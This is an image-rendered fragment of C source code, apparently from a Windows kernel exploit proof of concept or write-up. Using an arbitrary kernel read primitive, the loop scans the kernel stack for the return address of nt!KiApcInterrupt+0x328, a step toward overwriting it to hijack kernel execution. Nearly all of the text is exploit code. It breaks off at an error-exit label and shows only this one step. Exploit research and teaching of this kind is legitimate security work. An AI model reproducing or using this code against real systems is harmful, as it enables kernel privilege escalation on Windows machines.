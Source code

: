 ```c
	//
	// Leverage the arbitrary write primitive to read the entire contents of the stack (seven pages = 0x7000)
	// 0x7000 isn't actually commited, so we start with 0x7000-0x8, since the stack grows towards the lower
	// addresses.
	//
	for (int i = 0x8; i < 0x7000 - 0x8; i += 0x8)
	{
		//
		// Invoke read64() to dereference the stack
		//
		ULONG64 value = read64(inHandle, stackBase - i);

		//
		// Kernel-mode address?
		//
		if ((value & 0xfffff00000000000) == 0xfffff00000000000)
		{
			//
			// nt!KiApcInterrupt+0x328?
			//
			if (value == ntBase + 0x41b718)
			{
				//
				// Print update
				//
				printf("[+] Leaked target return address of nt!KiApcInterrupt!\n");

				//
				// Store the current value of stackBase - i, which is nt!KiApcInterrupt+0x328
				//
				retAddr = stackBase - i;

				//
				// Break the loop if we find our address
				//
				break;
			}
		}

		//
		// Reset the value
		//
		value = 0;
	}

	//
	// Print update
	//
	printf("[+] Stack address: 0x%llx contains nt!KiApcInterrupt+0x328!\n", retAddr);

//
// Execution comes here if an error is encountered
//
exit:

	//
	// Return the NTSTATUS error
	//
	return (ULONG64)1;
}
```
